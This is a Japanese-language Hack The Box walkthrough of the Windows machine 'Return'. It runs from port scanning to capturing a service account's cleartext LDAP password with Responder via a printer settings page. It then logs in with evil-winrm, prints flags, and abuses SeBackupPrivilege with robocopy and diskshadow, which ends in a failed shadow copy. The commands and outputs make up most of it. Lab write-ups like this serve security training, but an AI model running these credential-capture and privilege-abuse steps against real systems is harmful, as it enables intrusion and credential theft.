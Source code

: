 https://app.hackthebox.com/machines/401

## STEP 1
80番がオープン
```sh
└─$ rustscan -a 10.129.84.177 --no-banner --scripts none
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.84.177:53
Open 10.129.84.177:80
Open 10.129.84.177:88
Open 10.129.84.177:135
Open 10.129.84.177:139
Open 10.129.84.177:389
Open 10.129.84.177:445
Open 10.129.84.177:464
Open 10.129.84.177:593
Open 10.129.84.177:636
Open 10.129.84.177:3268
Open 10.129.84.177:3269
Open 10.129.84.177:5985
Open 10.129.84.177:9389
Open 10.129.84.177:47001
Open 10.129.84.177:49665
Open 10.129.84.177:49667
Open 10.129.84.177:49664
Open 10.129.84.177:49666
Open 10.129.84.177:49674
Open 10.129.84.177:49671
Open 10.129.84.177:49675
Open 10.129.84.177:49677
Open 10.129.84.177:49681
Open 10.129.84.177:49697
10.129.84.177 -> [53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49665,49667,49664,49666,49674,49671,49675,49677,49681,49697]
```


## STEP 2
80番にアクセス  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Return_01.png">  
settings.phpというページを発見、svc-printerはユーザ名？  
パスワードは非表示になっている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Return_02.png">  
settings.phpのソースを見ても、パスワードは確認できなかった  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Return_03.png">  
ここで実際にsettings.phpの「update」をクリックし、パケットを確認  
settings.phpの「Server Address」の情報のみが送信されている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Return_04.png">  
ここでsettings.phpの「Server Address」にkaliのipを指定して送信すると  
ldap上のsvc-printerのクレデンシャルをkali側で受信した！
```sh
└─$ sudo responder -I tun0 -v                
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.11]
    Responder IPv6             [dead:beef:4::1009]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-8VTH5NT7SRF]
    Responder Domain Name      [LWXF.LOCAL]
    Responder DCE-RPC Port     [46813]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...                                                                                                                                                                                                                 

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.84.177
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```
5985番ポートが開いていたので、winrmでログイン成功！  
ユーザフラグゲット
```sh
└─$ evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.129.84.177
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cat ../Desktop/user.txt
7ff57babb71ca751440b3a4cf191d885
```


## STEP 3
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
`SeBackupPrivilege`が有効になっている  
SeBackupPrivilegeは[リンク](https://learn.microsoft.com/ja-jp/windows-hardware/drivers/ifs/privileges)の通り、オブジェクトのACLをバイパスしてアクセスが可能  
ただ[リンク](https://serverfault.com/questions/980880/sebackupprivilege-but-cannot-read-all-files)でもある通り、この権限は専用のAPIを使用したプログラムでないと適用されない  
robocopyコマンドを使用すればルートフラグをゲットできるが、せっかくなのでシェルをとる
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> robocopy "C:\Users\administrator\Desktop" "C:\Users\svc-printer\Documents\" "root.txt" /B /NFL /NDL /NJH /NJS

*Evil-WinRM* PS C:\Users\svc-printer\Documents> type C:\temp\exfil\root.txt
278a2f7f1595036f612ce6fcfce54b52
```
ローカルだと、レジストリのSAM・SYSTEMをダンプすればクレデンシャルを取得できるが  
今回はADのクレデンシャルを取得するために、レジストリ以外に`ntds.dit`を取得する必要がある  
[リンク](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)を確認する限り、ntds.ditはシステムで使用中のためSeBackupPrivilege権限でもコピーできないが、  
`vss`サービスを用いた`diskshadow`コマンドでコピーが可能  
ただリンク通りに実行してもうまくシャドーコピーできなかった
### PATH 3-1
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe query vss

SERVICE_NAME: vss
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


*Evil-WinRM* PS C:\Users\svc-printer\Documents> diskshadow /s vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  PRINTER,  10/6/2025 4:43:00 PM

-> set context persistent nowriters
-> add volume c: alias raj

COM call "(*vssObject)->InitializeForBackup" failed.
```
